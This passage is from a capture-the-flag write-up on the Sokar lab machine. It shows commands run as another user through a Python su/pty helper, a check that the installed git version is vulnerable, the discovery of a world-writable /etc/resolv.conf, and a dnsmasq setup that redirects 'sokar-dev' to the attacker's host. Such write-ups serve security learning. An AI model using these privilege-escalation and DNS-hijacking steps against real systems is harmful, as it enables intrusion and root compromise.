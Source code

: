 I checked up on the installed version of `git` on Sokar, just to make sure that it is in fact vulnerable:

```bash
leonjza@kali/sokar $ python apophis.py "git --version"
 * Executing /usr/bin/python -c "import time; time.sleep(2); print 'overdrive'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su', '-l', '-c','git --version', 'apophis']);"

Password:
git version 2.2.0
```

Great. `git` version 2.2.1 fixed this bug so we are in luck.

## rooting sokar
All of this information was great to have, but it still had one major problem. How can I clone a repository **I** own? I made *countless* attempts to try fool the environment into resolving `sokar-dev` to my Kali Host. Every single one failed. All of the material on the topic that I found online suggest that the SUID process 'cleans up' the environment, especially for reasons such as this one.

I started doubting my plan and was nearing a point of leaving Sokar for a bit to rethink my strategy when I realized the following gem:

```bash
leonjza@kali/sokar $ python apophis.py "find /etc/ -writable -type f 2>/dev/null | xargs ls -lh"
 * Executing /usr/bin/python -c "import time; time.sleep(2); print 'overdrive'" | /usr/bin/python -c "import pty; pty.spawn(['/bin/su', '-l', '-c','find /etc/ -writable -type f 2>/dev/null | xargs ls -lh', 'apophis']);"

Password:
-rw-rw-rw- 1 root root 19 Jan  2 20:12 /etc/resolv.conf
```

`/etc/resolv.conf` is **world writable**. This is perfect! I can change the DNS server to use to one that I control, obviously feeding it a IP that will be my local Kali instance :D

### preparing the environment and exploit
I decided to use `dnsmasq` for a quick to setup DNS server. I added a line to `/etc/dnsmasq.hosts` to answer a query for `sokar-dev`:

```bash
leonjza@kali/sokar $ cat /etc/dnsmasq.hosts
192.168.217.174 sokar-dev
```

... and started the `dnsmasq` server:

```bash
leonjza@kali/sokar $ dnsmasq --no-daemon --log-queries -H /etc/dnsmasq.hosts

dnsmasq: started, version 2.62 cachesize 150
dnsmasq: compile time options: IPv6 GNU-getopt DBus i18n IDN DHCP DHCPv6 no-Lua TFTP conntrack
dnsmasq: reading /etc/resolv.conf
dnsmasq: using nameserver 192.168.252.2#53
dnsmasq: read /etc/hosts - 6 addresses
dnsmasq: read /etc/dnsmasq.hosts - 1 addresses
```
